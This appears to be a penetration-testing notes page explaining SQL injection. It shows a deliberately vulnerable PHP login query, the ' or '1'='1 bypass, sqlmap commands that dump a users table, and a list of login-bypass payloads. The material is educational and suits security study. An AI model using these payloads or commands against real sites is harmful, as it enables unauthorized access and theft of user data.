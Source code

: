 # SQL-injections


## How does sql-injections work?

So we have a website that is written in php. We have a login functionality, where the code looks like this:

```
<?php
	mysql_connect("localhost", "pelle", "mySecretPassowrd") or die(mysql_error());

	mysql_select_db("myHomepage");
	
	if ($_POST['uname'] != ""){
		$username = $_POST['username'];
		$password = $_POST['password'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
	}
?>
```

So the user input is not filtered or sanitized in any way. Which means that what the users puts in in the login-form will be executed my mysql. So just like in xss-injections we just try to escape the input field to be able to execute sql-commands. So if we input the following into the user-field and password-field in the login:

```
whatever' or '1'='1
whatever' or '1'='1
```

The query will look like this:
```
$query = "SELECT * FROM users WHERE username = 'whatever' OR '1'='1' AND password='whatever' OR '1'='1'";
```

Since they both become true the database will retrieve all users and we will be able to bypass the login.

If you know the username you could of course use that and then only inject on the password parameter.

```
$query = "SELECT * FROM users WHERE username = 'admin' AND password='whatever' OR '1'='1'";
```



## SQLmap

Sqlmap is a great tool to perform sqlinjections.
Here is the manual.
https://github.com/sqlmapproject/sqlmap/wiki/Usage


### Dumping a database or table

Here we are dumping the database Webapp and the table Users.

```
sqlmap -r request.txt -p username --dbms=mysql --dump -D Webapp -T Users
```

### Use proxy

```
--proxy="http://192.2.2.2.2:1111"
```

**Proxy credencials**
```
--proxy-cred="username:password"
```


Here is a tutorial on how to make sql-injections with post-requests.

https://hackertarget.com/sqlmap-post-request-injection/


## Login bypass



This is the most classic, standard first test:
```
' or '1'='1
```

Then you have:

```
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

## Map out the database using error-messages

If we manage to find an error-message after a broken sql-query, we can use that to try to map out the database structure.

For example, if we have a url that end with 

```
http://example.com/photoalbum.php?id=1
```


We should first ad a **'** or a **"**. 

## References